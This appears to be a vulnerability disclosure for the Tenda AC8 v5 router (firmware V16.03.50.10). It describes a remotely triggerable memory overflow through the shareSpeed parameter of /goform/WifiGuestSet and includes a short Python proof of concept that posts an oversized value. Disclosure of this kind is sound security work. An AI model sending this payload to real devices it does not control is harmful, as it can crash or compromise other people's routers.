




# Affected version:

Tenda AC8 v5 V16.03.50.10

download link https://www.tenda.com.cn/download/detail-3803.html


# Vulnerability details:





This Vulnberability can be exploited remotely. The attacker simply  sends a tailored POST request to the target server. Within this request, the attacker inserts a payload containing specific data using the  shareSpeed parameter, triggering a memory overflow. This assault does  not involve any user engagement, making it harder to detect and defend  against.


# show exp






# poc

```
import requests

url = "http://192.168.0.133/goform/WifiGuestSet"

data = {
        b"shareSpeed":b'a'*0x200
    	}
res = requests.post(url=url,data=data)
print(res.content)
```

